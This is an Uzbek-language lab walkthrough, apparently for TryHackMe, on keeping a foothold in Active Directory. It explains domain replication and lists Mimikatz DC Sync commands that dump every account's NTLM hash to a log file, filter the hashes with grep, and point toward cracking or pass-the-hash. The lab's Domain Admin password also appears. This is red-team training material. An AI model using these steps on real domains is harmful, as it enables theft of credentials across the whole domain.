 
## **Tabriklaymiz**

**Tabriklaymiz, charchagan sayohatchi!** Agar Active Directory’ni buzib, tarmoqni to‘liq o‘rganib, yuqori darajagacha ekspluatatsiya qilgan bo‘lsangiz (va bu AD tarmoqlarni ketma-ket bajargan bo‘lsangiz), nihoyat siz **"barqarorlik mehmonxonasiga"** yetib keldingiz. Endi og‘ir ishlar tugadi va biroz dam olish vaqti keldi.

AD’ga barqarorlik (persistence) o‘rnatish ham jiddiy, lekin boshqa bosqichlar kabi stressli emas. Bu yerda tasavvuringizga erkinlik berish mumkin. Shunday ekan, charchagan suyaklaringizni dam oldiring, bir piyola choy oling va boshlaymiz.

### Sizga maxfiy kirishlar taqdim etiladi:

Ushbu mashg‘ulotda, oddiy foydalanuvchi huquqlariga ega bo‘lgan akkauntga qo‘shimcha ravishda **Domain Administrator (DA)** huquqlari ham beriladi. Bu qanday omad!

Ushbu texnikalarni sinovdan o‘tkazishda siz **administrator huquqlaridan foydalanib**, oddiy foydalanuvchi ustida turli barqarorlik metodlarini amalga oshirasiz. Quyidagi Domain Admin ma'lumotlarini eslab qoling:

* **Foydalanuvchi nomi:** Administrator
* **Parol:** `tryhackmewouldnotguess1@`
* **Domen:** ZA

Biz sizga domen ustidan to‘liq nazorat berganimiz sababli, hech qanday flaglar yashirilmaydi. Ammo sizdan ushbu texnikalarni mustaqil tarzda bajarib, amaliy ko‘nikmaga ega bo‘lishingizni so‘raymiz. Bu bilimlar haqiqiy Red Team testlarida sizga juda katta foyda keltiradi, ayniqsa Blue Team (himoya jamoasi) sizni tarmoqdan chiqarib yuborishga urinayotgan vaqtda.

---

## **Barqarorlik usuli #1: Credentiallar (Foydalanuvchi ma'lumotlari)**

Oldin o‘rganilgan lateral harakatlar orqali siz credentiallarga ega bo‘lgan bo‘lishingiz mumkin. Credentiallar deganda faqat foydalanuvchi nomi va parol emas, balki **NTLM xesh** ham nazarda tutiladi, chunki uni **pass-the-hash** texnikasi orqali ishlatish mumkin.

---

## **DC Sync — Domain Controller sinxronizatsiyasi**

Katta tashkilotlarda birgina Domain Controller yetarli emas, chunki ular turli mintaqalarda joylashgan bo‘ladi. Bunday tashkilotlarda bir nechta DC (Domain Controller) bo‘lishi odatiy hol.

Bu DC’lar bir-biri bilan ma'lumot almashadi — **Domain Replication** deb ataladigan jarayon orqali. Har bir DC o‘zining **KCC (Knowledge Consistency Checker)** xizmatiga ega bo‘lib, boshqa DC’lar bilan **Remote Procedure Call (RPC)** orqali sinxronlashadi.

Bu jarayon **DC Sync** deb ataladi. DC’ni sinxronizatsiya qilish huquqi faqatgina DC’lar bilan cheklanmagan — **Domain Admin** bo‘lgan foydalanuvchilar ham bu ishni bajarishi mumkin.

---

## **DC Sync Attack (Huquqiy foydalanuvchi orqali credential yig‘ish)**

Agar sizda **Domain Replication** huquqi mavjud bo‘lsa, **Mimikatz** vositasi orqali **DC Sync hujumi** qilish mumkin va foydalanuvchilar credentiallarini yig‘ib olish mumkin.

---

## **Hamma Credentiallar teng emas**

Domain Administrator credentiallarini olish – bu ajoyib. Lekin bu credentiallar **birinchi bo‘lib parol almashtiriladigan (rotated)** credentiallar hisoblanadi. Shunday ekan, bu credentiallarga tayanish barqarorlik uchun xavfli.

Yaxshi yechim — **quyi darajadagi, ammo hali ham kuchli huquqlarga ega bo‘lgan credentiallar** orqali barqarorlikni ta'minlash:

* **Ko‘plab kompyuterlarda Local Admin bo‘lgan akkauntlar** – ular ko‘pincha barcha ishchi kompyuterlarda mavjud bo‘ladi.
* **Delegation (vakolat topshirilgan) huquqlarga ega bo‘lgan servis akkauntlar** – ulardan **Kerberos Delegation** hujumlari uchun foydalanish mumkin.
* **AD xizmatlariga aloqador bo‘lgan akkauntlar** – masalan, Exchange, WSUS, SCCM va h.k.

---

## **Barchani DC Sync qilish**

Endi esa **Mimikatz** orqali **hammadan credential yig‘amiz**:

### 1. THMWRK1 ga SSH orqali DA akkaunt bilan ulaning.

```powershell
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

### 2. Avval faqat o‘zingizni sinab ko‘ring:

```mimikatz
lsadump::dcsync /domain:za.tryhackme.loc /user:<oddiy foydalanuvchi nomi>
```

Siz NTLM xesh va boshqa ma’lumotlarni olasiz.

---

### 3. Endi esa **barcha akkauntlarni** yig‘ib olamiz:

#### Log yozishni yoqing:

```mimikatz
log <foydalanuvchi_nomi>_dcdump.txt
```

#### Keyin barchani dump qiling:

```mimikatz
lsadump::dcsync /domain:za.tryhackme.loc /all
```

Bu biroz vaqt oladi. Amal tugagach, `exit` bilan chiqing va `.txt` faylni ko‘rib chiqing.

```bash
cat <foydalanuvchi_nomi>_dcdump.txt | grep "SAM Username"
cat <foydalanuvchi_nomi>_dcdump.txt | grep "Hash NTLM"
```

Shundan so‘ng siz:

* **Offline parol sindirish** (crack)
* yoki
* **Pass-the-Hash hujumi**

bilan davom etishingiz mumkin.
